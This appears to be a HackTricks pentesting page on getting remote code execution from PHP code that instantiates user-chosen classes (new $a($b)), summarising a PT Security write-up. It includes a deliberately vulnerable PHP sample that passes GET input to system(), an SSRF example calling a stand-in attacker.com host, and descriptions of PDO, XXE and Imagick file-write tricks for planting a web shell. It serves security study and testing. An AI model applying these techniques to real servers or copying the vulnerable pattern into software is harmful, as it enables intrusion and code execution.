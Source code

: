 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Introduction

In the situation where you can create a new arbitrary object like `new $_GET["a"]($_GET["a"])`you might be able to obtain RCE, and [**this writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) exposes different ways to get RCE.

## RCE via Custom Classes or Autoloading

In the construction `new $a($b)`, the **variable `$a` stands for the class name** that the object will be created for, and the variable **`$b` stands for the first argument** that will be passed to the object’s constructor.

If `$a` and `$b` come from GET/POST, they can be **strings or string arrays**. If they come from **JSON** or elsewhere, they **might have other types**, such as object or boolean.

Let’s consider the following example:

```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

In this code, you can set  `$a`  to  `App`  or  `App2`  and  `$b`  to  `uname -a`. After this, the command  `uname -a`  will be executed.

When there are no such exploitable classes in your application, or you have the class needed in a separate file that isn’t included by the vulnerable code, you may take a look at autoloading functions.

**Autoloading functions** are set by registering callbacks via `spl_autoload_register` or by defining `__autoload`. They are called when an instance of an unknown class is trying to be created.

```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
        include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
        include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```

Depending on the PHP version, and the code in the autoloading functions, some ways to get a Remote Code Execution via autoloading might exist.

## RCE via Built-In Classes

When you don’t have custom classes and autoloading, you can rely on **built-in PHP classes only**.

There are from 100 to 200 built-in PHP classes. The number of them depends on the PHP version and the extensions installed. All of built-in classes can be listed via the `get_declared_classes` function, together with the custom classes:

```php
var_dump(get_declared_classes());
```

Classes with useful constructors can be found via [the reflection API](https://www.php.net/manual/en/book.reflection.php).

Displaying constructors and their parameters using the reflation API: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)\


![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

If you control **multiple constructor parameters and can call arbitrary methods** afterwards, there are many ways to get a Remote Code Execution. But if you can pass **only one parameter and don’t have any calls** to the created object, there is **almost nothing**.

I know of only three ways to get something from `new $a($b)`.

### **SSRF + Phar deserialization**

The `SplFileObject` class implements a constructor that allows connection to any local or remote URL:

```
new SplFileObject('http://attacker.com/');
```

This allows SSRF. Additionally, SSRFs in PHP < 8.0 could be turned into deserializations via techniques with the Phar protocol.

### **Exploiting PDOs**

The PDO class has another interesting constructor:

```php
new PDO("sqlite:/tmp/test.txt")
```

The `PDO` constructor accepts DSN strings, allowing us to **connect to any local or remote database** using **installed database extensions**. For example, the SQLite extension can create empty files.

### **SoapClient/SimpleXMLElement XXE**

In PHP ≤ 5.3.22 and ≤ 5.4.12, the constructor of SoapClient was **vulnerable to XXE**. The constructor of SimpleXMLElement was vulnerable to XXE as well, but it required libxml2 < 2.9.

## RCE via Imagick Extension

Checking the **dependencies** of the **project** you are trying to exploit you could find **new classes** that could be **abused to execute commands** creating a new object. In this case, **Imagick** was found to be useful for that purpose.

### VID parser

The VID parser allows to write arbitrary content in an arbitrary path inside the filesystem, which would allow an attacker to write a PHPshell in an accessible folder from the web page and get RCE.

![](<../../../.gitbook/assets/image (157) (3).png>)

#### VID Parser + FIle Upload

When a file is uploaded to PHP it's temporary stored in `/tmp/phpXXXXXX` . The VID parser of Imagick with the **msl** protocol allows to **specify wildcards in the file paths** (so the temporary uploaded file can be easily accessed) and **copy it to any arbitrary location**.\
This is another way to get arbitrary file writing inside the filesystem:

![](<../../../.gitbook/assets/image (159).png>)

### PHP Crash + Brute Force

The [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) explained another way to get RCE by **uploading files with specific content** and making the **server crash before it deletes** that file and then **bruteforcing the name** of the temporary file until **Imagick executes arbitrary PHP code**.

However, apparently the **crash trick** discovered only **worked in an old version of ImageMagick**.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
